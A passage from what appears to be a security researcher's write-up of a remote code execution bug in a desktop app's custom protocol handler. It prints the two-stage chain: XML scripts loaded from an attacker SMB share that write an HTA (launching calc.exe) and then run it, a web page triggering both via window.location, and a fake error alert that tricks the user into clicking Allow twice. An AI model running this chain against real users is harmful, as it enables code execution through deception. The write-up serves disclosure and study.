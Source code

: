 The first line injects the HTA and the second line exploits it, pretty nifty,
eh? WELL, one big issue. The execution is stopped after the first error. The HTA
is written to the file system but the `BrowserOpen` line is never executed :(

What if we invoke the app twice on the same web page? Instead of having two
commands in one script we can have two different scripts (one injects and the
second executes).

`appHandler://-script \\IP\inject-HTA.xml C:/ProgramData/app/inject.hta`

The script just injects the HTA:

```xml
<MyRoot>
    <script>var x=new ActiveXObject("WScript.Shell");x.Exec("calc.exe");</script>
</MyRoot>
```

The second execution runs the injected HTA.

`appHandler://-script \\IP\run-HTA.xml \\IP\did-it-execute.txt`

The script executes the injected HTA and writes the output to our shared server
(optional).

```xml
<MyRoot>
    <BrowserOpen URI="C:/ProgramData/app/inject.hta">
</MyRoot>
```

We can do this on one HTML page with JavaScript. Assigning the protocol handler
URI to `window.location` is the same as clicking it.

```
1. window.location=String.raw`appHandler://-script \\IP\inject-HTA.xml C:/ProgramData/app/inject.hta`
2. User needs to click allow. The app runs. HTA is injected.
3. Wait 10 seconds and then show an alert popup.
4. window.location=String.raw`appHandler://-script \\IP\run-HTA.xml \\IP\did-it-execute.txt`
5. User clicks allow. The app runs. HTA is executed
6. ???
7. Profit
```

The user needs to click `Allow` to run the app twice but chances are the user
will think the app did not launch properly. We can show an alert box after the
execution to claim the execution was not successful and we will try again to
trick the user into doing it again.

{{< imgcap title="Source: My Nintendo Power Glove manual" src="03-powerglove-rce.jpg" >}}

## User Gesture Required
This also has the advantage of bypassing Chromium "user gesture required"
errors. In short, after the first protocol handler, the user must do something
other than clicking allow otherwise, the second protocol handler does not
start and we see this error in the console
`Not allowed to launch 'appHandler://blah' because a user gesture is required.`
